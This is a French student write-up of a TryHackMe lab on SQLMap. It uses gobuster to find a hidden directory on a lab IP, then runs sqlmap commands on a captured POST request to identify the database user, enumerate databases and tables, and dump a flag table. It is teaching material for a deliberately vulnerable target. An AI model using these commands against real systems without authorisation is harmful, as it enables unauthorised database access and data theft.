








# TryHackMe : SQLMap

Ce TD permet de découvrir SQLMap et d'essayer d'automatiser des tests d'injections SQL.

## Manipulations

Tout d'abord, le plus utile est de regarder les différentes options de SQLMap.

`sqlmap -h`

Ensuite, le reste des manipulations a pour objectif de trouver un flag dans un site non sécurisé.

Pour trouver le dossier intéressant, on utilise habituellement dirb mis cette fois-ci, ce dernier ne fonctionne pas. Alors à la place, comme recommandé par TryHackMe, on va lancer le logiciel gobuster.

`gobuster dir -u http://10.10.38.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64`

Il nous trouve le dossier `/blood`.

Maintenant, on récupère une requête POST vers ce site grâce à Burp et on la stocke dans un fichier `req.txt`.

Pour connaître l'utilisateur connecté à la BDD.

`sqlmap -r req.txt -p blood_group --current-user`

Donc l'utilisateur actuellement connecté est `root` et on connait à présent que c'est une base de donnée MySQL 5. Ce qui est utile puisqu'on peut préciser ce paramètre à SQLMap afin d'affiner l'attaque.

Maintenant, récupérons les BDD, tables et notre flag.

`--dbms` précise le type de BDD, `--technique` précise le type d'injection SQL et `--dbs` liste les BDD.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U --dbs`

On va principalement s'attarder sur `blood`.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood --tables`

Il ne reste plus qu'à afficher ce qu'il y a dans la table `flag`.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood -T flag --dump`

Et voilà, nous avons notre flag.

Réponse aux questions :

